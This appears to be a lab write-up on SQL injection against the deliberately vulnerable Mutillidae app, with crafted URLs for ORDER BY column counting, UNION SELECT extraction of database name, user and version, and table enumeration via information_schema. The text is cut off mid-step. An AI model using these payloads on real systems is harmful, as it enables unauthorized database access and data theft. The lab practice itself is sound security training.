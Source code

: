 Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Subhikshaa13/sqlinjection/assets/118787344/2d6f9c9b-6a95-45e0-b4d4-a4521469b533)

After adding the order by 6 into the existing url , the following error statement will be obtained:

![image](https://github.com/Subhikshaa13/sqlinjection/assets/118787344/1efe3eb4-5a17-4767-a80e-9bb1377000d2)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6

![image](https://github.com/Subhikshaa13/sqlinjection/assets/118787344/cda17e6d-3ba4-4f41-95cb-c56c6eb4a0eb)

As it is having 5 columns the query worked fine and it prov
![image](https://github.com/Subhikshaa13/sqlinjection/assets/118787344/fd5a8fc2-a5df-4aa6-b424-d1a8627a79a9)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![image](https://github.com/Subhikshaa13/sqlinjection/assets/118787344/4f696d9b-5f86-4868-b18b-dae192fb4f76)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.


![image](https://github.com/Subhikshaa13/sqlinjection/assets/118787344/142785c2-0da7-4e33-8449-9078c49cd4cb)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Subhikshaa13/sqlinjection/assets/118787344/e9f51399-c097-4e3d-90ce-e50123035150)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
